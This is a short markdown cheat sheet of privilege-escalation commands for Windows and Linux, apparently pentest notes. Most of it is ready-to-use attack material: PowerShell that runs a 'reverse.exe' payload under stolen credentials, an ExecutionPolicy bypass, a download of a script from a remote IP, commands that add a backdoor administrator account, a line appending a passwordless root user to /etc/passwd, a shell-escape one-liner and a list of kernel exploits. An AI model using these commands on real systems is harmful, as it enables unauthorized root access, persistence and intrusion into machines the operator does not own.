

# Privilege Escalation

## Windows

```text
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
net user
```

### Change User


```text
$secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("alice",
$secpasswd)
$computer = "BETHANY"
[System.Diagnostics.Process]::Start("C:\Windows\temp\reverse.exe","<argument>",
$mycreds.Username, $mycreds.Password, $computer)
```


```text
powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1
```

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.98/run.ps1','C:\Users\Bethany\run.ps1')"
```

```text
net user <username> <password> /add
net localgroup Administrators <username> /add
```

```text
start RDP
```

```text
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic os get osarchitecture
```

* KiTrap0D \(KB979682\)
* MS11-011 \(KB2393802\)
* MS10-059 \(KB982799\)
* MS10-021 \(KB979683\)
* MS11-080 \(KB2592799\)

### Kernel



## Linux

### Writable /etc/passwd

```text
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
```

### Linux Kernel 2.6 UDEV

* [http://www.madirish.net/370](http://www.madirish.net/370)

### Break out from jail shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## References

### Linux

* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [https://www.hackingarticles.in/linux-privilege-escalation-via-automated-script/](https://www.hackingarticles.in/linux-privilege-escalation-via-automated-script/)

### Windows

* [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
* [https://guif.re/windowseop](https://guif.re/windowseop)
* [https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell](https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell)
* [https://guide.offsecnewbie.com/privilege-escalation/windows-pe](https://guide.offsecnewbie.com/privilege-escalation/windows-pe#windows-ms-11-080)

### Popular Linux Kernel Exploit

1. [https://git.zx2c4.com/CVE-2012-0056/about/\#mempodipper](https://git.zx2c4.com/CVE-2012-0056/about/#mempodipper)
2. [http://www.madirish.net/370](http://www.madirish.net/370)

### Popular Windows Kernel Exploit

1. Kitrap0D


